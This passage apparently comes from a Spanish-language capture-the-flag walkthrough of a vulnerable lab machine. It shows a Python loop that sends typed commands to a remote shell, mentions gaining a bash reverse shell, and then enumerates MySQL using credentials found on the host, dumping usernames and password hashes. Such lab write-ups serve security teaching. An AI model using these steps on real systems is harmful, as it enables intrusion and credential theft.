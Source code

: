 ```python

	while True:
		comando = input("$~ ")
		if(comando == "exit" or comando == "quit"):
			print("Adios!!")
			sys.exit(0)
		else:
			shell(comando)

```

Nos enviamos una reverse shell en bash y entramos al sistema.

![](https://lh5.googleusercontent.com/7-Y2OjmyFTrCgZ-gCqVQTIUk1LUrrumRQdIRZ0RdgoLvvX3-44qXr-003Gqmtb9KWZ269OGtGICe6ZFZyHBZaMfxTOkHf3ZCjw5UO380M82MSyyz1X5WR2EAJmmeEXwJDuHFYWpg)

Si enumeramos un poco en el sistema encontramos un archivo que contiene las credenciales de mysql.

![](https://lh3.googleusercontent.com/XcO2Ol9Mxd6wIMJYk0Ui9v4KDk1vPmb6Sr9AU5n3gQBtZJ-lZknw8y1p4dSUjZqBs81x2rzRHwS8JGU7WSqoDnizvw4khM3sk7vtVDsolPEV1JSvDgH-amWEd9ESWSXsMMb7Puwd)

Rápidamente comienzo a enumerar las tablas.

```
$ mysql -uroot -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 68
Server version: 5.0.51a-3ubuntu5.4 (Ubuntu)

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema | 
| gallery            | 
| mysql              | 
+--------------------+
3 rows in set (0.00 sec)

mysql> use gallery;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+----------------------+
| Tables_in_gallery    |
+----------------------+
| dev_accounts         | 
| gallarific_comments  | 
| gallarific_galleries | 
| gallarific_photos    | 
| gallarific_settings  | 
| gallarific_stats     | 
| gallarific_users     | 
+----------------------+
7 rows in set (0.00 sec)

mysql> select * from dev_accounts;
+----+------------+----------------------------------+
| id | username   | password                         |
+----+------------+----------------------------------+
|  1 | dreg       | 0d3eccfb887aabd50f243b3f155c0f85 | 
|  2 | loneferret | 5badcaf789d3d1d09794d8f021f40f0e | 
```